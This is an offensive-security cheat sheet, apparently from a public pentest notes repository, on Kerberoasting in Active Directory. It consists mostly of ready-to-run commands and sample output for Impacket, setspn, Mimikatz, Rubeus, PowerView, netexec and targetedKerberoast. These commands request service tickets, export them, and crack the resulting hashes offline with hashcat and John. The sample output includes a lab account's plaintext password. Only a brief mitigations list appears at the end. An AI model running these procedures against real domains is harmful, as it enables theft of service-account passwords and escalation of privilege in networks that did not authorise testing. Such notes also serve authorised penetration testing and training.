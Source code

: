 # Roasting - Kerberoasting

> "A service principal name (SPN) is a unique identifier of a service instance. SPNs are used by Kerberos authentication to associate a service instance with a service logon account. " - [MSDN](https://docs.microsoft.com/fr-fr/windows/desktop/AD/service-principal-names)

Any valid domain user can request a kerberos ticket (ST) for any domain service. Once the ticket is received, password cracking can be done offline on the ticket to attempt to break the password for whatever user the service is running as.

## Linux

### [GetUserSPNs](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetUserSPNs.py) from Impacket Suite

* **List All SPN Accounts**  
  ```bash
  Impacket-GetUserSPNs -dc-ip <DC IP> <domain>/<user>
  ```
* **Request all TGS Tickets** 
  ```bash
  $ impacket-GetUserSPNs active.htb/SVC_TGS:GPPstillStandingStrong2k18 -dc-ip 10.10.10.100 -request

  Impacket v0.9.17 - Copyright 2002-2018 Core Security Technologies

  ServicePrincipalName  Name           MemberOf                                                  PasswordLastSet      LastLogon           
  --------------------  -------------  --------------------------------------------------------  -------------------  -------------------
  active/CIFS:445       Administrator  CN=Group Policy Creator Owners,CN=Users,DC=active,DC=htb  2018-07-18 21:06:40  2018-12-03 17:11:11 

  $krb5tgs$23$*Administrator$ACTIVE.HTB$active/CIFS~445*$424338c0a3c3af43[...]84fd2
  ```
* **Request a Single TGS ticket**  
  ```bash
  Impacket-GetUserSPNs -dc-ip <dc ip> <domain>/<user> -request-user <target user>
  ```
* **Save the ticket to an output file**  
  ```bash
  Impacket-GetUserSPNs -dc-ip <dc ip> <domain>/<user> -request-user <target user> -outputfile <filename>
  ```

 ### [targetedKerberoast](https://github.com/ShutdownRepo/targetedKerberoast)

  ```bash
  # for each user without SPNs, it tries to set one (abuse of a write permission on the servicePrincipalName attribute),
  # print the "kerberoast" hash, and delete the temporary SPN set for that operation
  targetedKerberoast.py [-h] [-v] [-q] [-D TARGET_DOMAIN] [-U USERS_FILE] [--request-user username] [-o OUTPUT_FILE] [--use-ldaps] [--only-abuse] [--no-abuse] [--dc-ip ip address] [-d DOMAIN] [-u USER] [-k] [--no-pass | -p PASSWORD | -H [LMHASH:]NTHASH | --aes-key hex key]
  ```
## Windows

### Manual Method
* **Using setspn.exe to enumerate SPN's**  
  ```powershell
  setspn.exe -Q */*
  ```
* **Targeting a single user**  
  ```powershell
  Add-Type -AssemblyName System.IdentityModel
  New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList <SPN Name>
  ```
* **Retrieving All Tickets Using setspn.exe**  
  Caution: This will pull all computer accounts as well, so use with caution
  ```powershell
  setspn.exe -T <domain> -Q */* | Select-String '^CN' -Context 0,1 | % {New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }
  ```
* **Extracting the tickets from Memory w/ Mimikatz**  
  ```powershell
  mimikatz # base64 /out:true # If you do not specify this, it will dump the tickets into .kirbi files
  isBase64InterceptInput  is false
  isBase64InterceptOutput is true

  mimikatz # kerberos::list /export
  ```
* **Prepare the Base64 Blob for cracking**
  ```powershell  
  echo "<base64blob>" | tr-d \\n
  ```
* **Placing the Output into a .kirbi file**  
  ```bash
  cat <encoded file> | base64 -d > <file>.kirbi
  ```
* **Ticket Extraction with kirbi2john.py**  
  ```bash
  kirbi2john.py sqldev.kirbi
  ```
* **Modify the crack_file for Hashcat**  
  ```bash
  sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_file > sqldev_tgs_hashcat
  ```
* **Crack with Hashcat**  
  ```bash
  hashcat -a 0 -m 13100 <hashfile> <wordlist>
  ```

### Automated Methods

* **netexec Module**  

  ```powershell
  $ netexec ldap 10.0.2.11 -u 'username' -p 'password' --kdcHost 10.0.2.11 --kerberoast output.txt
  LDAP        10.0.2.11       389    dc01           [*] Windows 10.0 Build 17763 x64 (name:dc01) (domain:lab.local) (signing:True) (SMBv1:False)
  LDAP        10.0.2.11       389    dc01           $krb5tgs$23$*john.doe$lab.local$MSSQLSvc/dc01.lab.local~1433*$efea32[...]49a5e82$b28fc61[...]f800f6dcd259ea1fca8f9
  ```

* **[Rubeus](https://github.com/GhostPack/Rubeus)**  

  ```powershell
  # Stats
  Rubeus.exe kerberoast /stats
  -------------------------------------   ----------------------------------
  | Supported Encryption Type | Count |  | Password Last Set Year | Count |
  -------------------------------------  ----------------------------------
  | RC4_HMAC_DEFAULT          | 1     |  | 2021                   | 1     |
  -------------------------------------  ----------------------------------

  #All accounts with the ldap filter set to "1"
  .\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap #/nowrap keeps line breaks out of crackable hash

  
  # Kerberoast (RC4 ticket)
  Rubeus.exe kerberoast /creduser:DOMAIN\JOHN /credpassword:MyP@ssW0RD /outfile:hash.txt

  # Kerberoast (AES ticket)
  # Accounts with AES enabled in msDS-SupportedEncryptionTypes will have RC4 tickets requested.
  Rubeus.exe kerberoast /tgtdeleg

  # Kerberoast (RC4 ticket)
  # The tgtdeleg trick is used, and accounts without AES enabled are enumerated and roasted.
  Rubeus.exe kerberoast /rc4opsec
  ```

* **[PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)**  

  ```powershell
  # ?
  Request-SPNTicket -SPN "MSSQLSvc/dcorp-mgmt.dollarcorp.moneycorp.local"
  
  #List all SPN's
  Get-Domainuser * -spn | select samaccountname

  #Target a specific user
  Get-DomainUser -Identity <username> | Get-DomainSPNTicket -Format Hashcat

  #Export all tickets to a .csv
  Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\ilfreight_tgs.csv -NoTypeInformation
  ```

* **[bifrost](https://github.com/its-a-feature/bifrost) on macOS machine**  

  ```powershell
  ./bifrost -action asktgs -ticket doIF<...snip...>QUw= -service host/dc1-lab.lab.local -kerberoast true
  ```

* **[targetedKerberoast](https://github.com/ShutdownRepo/targetedKerberoast)**  

  ```powershell
  # for each user without SPNs, it tries to set one (abuse of a write permission on the servicePrincipalName attribute), 
  # print the "kerberoast" hash, and delete the temporary SPN set for that operation
  targetedKerberoast.py [-h] [-v] [-q] [-D TARGET_DOMAIN] [-U USERS_FILE] [--request-user username] [-o OUTPUT_FILE] [--use-ldaps] [--only-abuse] [--no-abuse] [--dc-ip ip address] [-d DOMAIN] [-u USER] [-k] [--no-pass | -p PASSWORD | -H [LMHASH:]NTHASH | --aes-key hex key]
   ```

## Cracking w/ Hashcat
* **Crack the ticket using the correct hashcat mode (`$krb5tgs$23`= `etype 23`)**  

| Mode    | Description  |
|---------|--------------|
| `13100` | Kerberos 5 TGS-REP etype 23 (RC4) |
| `19600` | Kerberos 5 TGS-REP etype 17 (AES128-CTS-HMAC-SHA1-96) |
| `19700` | Kerberos 5 TGS-REP etype 18 (AES256-CTS-HMAC-SHA1-96) |

```powershell
./hashcat -m 13100 -a 0 kerberos_hashes.txt crackstation.txt
./john --wordlist=/opt/wordlists/rockyou.txt --fork=4 --format=krb5tgs ~/kerberos_hashes.txt
```

**Mitigations**:

* Have a very long password for your accounts with SPNs (> 32 characters)
* Make sure no users have SPNs

## References

* [Hack The Box Academy](https://academy.hackthebox.com/module/143/section/1456)
* [Abusing Kerberos: Kerberoasting - Haboob Team](https://www.exploit-db.com/docs/english/45051-abusing-kerberos---kerberoasting.pdf)
* [Invoke-Kerberoast - Powersploit Read the docs](https://powersploit.readthedocs.io/en/latest/Recon/Invoke-Kerberoast/)
* [Kerberoasting - Part 1 - Mubix “Rob” Fuller](https://room362.com/post/2016/kerberoast-pt1/)
* [Post-OSCP Series Part 2 - Kerberoasting - 16 APRIL 2019 - Jon Hickman](https://0metasecurity.com/post-oscp-part-2/)
* [Training - Attacking and Defending Active Directory Lab - Altered Security](https://www.alteredsecurity.com/adlab)

# Original Notes from [SwisskyRepo](https://github.com/swisskyrepo/InternalAllTheThings)
